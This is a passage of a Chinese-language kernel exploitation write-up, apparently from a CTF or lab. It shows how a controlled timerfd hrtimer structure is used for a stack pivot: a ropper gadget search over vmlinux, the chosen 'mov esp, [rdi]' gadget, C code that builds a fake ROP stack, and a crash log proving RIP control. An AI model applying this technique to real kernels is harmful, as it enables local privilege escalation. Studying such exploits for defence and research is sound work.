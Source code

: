 发现，在执行`timerfd_proc`时，`RDI`指向`htimer`结构体，这也和其函数原型是一致的（htimer作为参数）

```c
static enum hrtimer_restart timerfd_tmrproc(struct hrtimer *htmr)
{
	struct timerfd_ctx *ctx = container_of(htmr, struct timerfd_ctx,
					       t.tmr);
	timerfd_triggered(ctx);
	return HRTIMER_NORESTART;
}
```

由于`htimer`结构体的内容是可控的，所以可以用下面的Gadget完成stack povit

```assembly
mov esp, [rdi]; xxx; ret;
```

利用`ropper`搜索`vmlinux`的Gadgets

```
ropper --file ./vmlinux --nocolor > ./gadgets
```

找到符合`stack povit`的指令

```assembly
0xffffffff81027b86: mov esp, dword ptr [rdi]; lea rax, [rax + rsi*8]; ret; 
```

在`handler`中新建一个`map region`，用于`fake stack`

```c
		void* fake_stack = mmap((void*)0xccaa0000, PAGE_SIZE*4, PROT_READ|PROT_WRITE, MAP_FIXED|MAP_PRIVATE|MAP_ANONYMOUS, 0, 0);
		
		((unsigned long*)(buffer))[0x0] = (unsigned long)(fake_stack + 0x400);
		((unsigned long*)(buffer))[0x3] = 0x0000000000000001;
		((unsigned long*)(buffer))[0x4] = 0x0000000000000001;
		//((unsigned long*)(buffer))[0x5] = 0xdeadbeefdeadbeef;
		((unsigned long*)(buffer))[0x5] = povit_pointer;

		unsigned long* rop = (unsigned long*)(fake_stack + 0x400);
		*rop += 0xdeadbeefdeadbeef;
```

成功让内核执行`rop`

```assembly
--[ end trace a9565c28afb2df0d ]---
RIP: 0010:0xdeadbeefdeadbeef
Code: Bad RIP value.
RSP: 0018:00000000ccaa0408 EFLAGS: 00000006
RAX: ffffffffb6c27b86 RBX: ffffffffb743e0a0 RCX: 0000000000000000
RDX: 00000000fffffffe RSI: 0000000000000000 RDI: ffff98afc029a200
RBP: ffffb8fa80003f68 R08: 0000000000000000 R09: ffffffffb743e040
R10: 0000000000000000 R11: 0000000000000000 R12: 00000001783f07e0
```
